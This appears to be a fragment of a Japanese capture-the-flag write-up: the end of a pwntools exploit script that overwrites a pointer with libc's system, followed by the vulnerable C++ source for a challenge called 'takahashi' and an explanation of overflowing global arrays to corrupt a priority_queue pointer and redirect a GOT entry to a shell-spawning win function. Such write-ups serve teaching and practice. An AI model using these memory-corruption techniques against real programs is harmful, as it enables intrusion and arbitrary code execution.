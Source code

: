 ```python

read_message(r, -1024819115206086193, b"A" * 8 + pack(libc.symbols["system"]))
clear_all(r)

r.interactive()
```

# takahashi

次のソースコードとバイナリが渡されます。
Partial RELRO かつ、no PIE です。

```c
// https://github.com/E869120/kyopro-tessoku/blob/main/codes/cpp/chap08/answer_A53.cpp
#include <iostream>
#include <queue>
#include <vector>
using namespace std;

int Q;
int QueryType[100009], x[100009];
priority_queue<int, vector<int>, greater<int>> T;

int main() {
	// 入力
	cin >> Q;
	for (int i = 1; i <= Q; i++) {
		cin >> QueryType[i];
		if (QueryType[i] == 1) cin >> x[i];
	}

  // asm volatile("int3");

	// クエリの処理
	for (int i = 1; i <= Q; i++) {
		if (QueryType[i] == 1) T.push(x[i]);
		if (QueryType[i] == 2) cout << T.top() << endl;
		if (QueryType[i] == 3) T.pop();
	}


	return 0;
}

void win() { std::system("/bin/sh"); } // Gift :)
```

QueryType も x も T も、全てグローバルにあります。Q を大きくしてやると、T の持つポインタを改ざんすることができます。
これを GOT に向け、適当な関数(`endl`の演算子オーバーロードとかがおすすめ)を`win`に向けます。
書き込み時、priority_queue であることに注意してください。一次元配列をいい感じに用いて木構造を作っているので、目的の値を書き込むため少しだけ工夫が必要です。
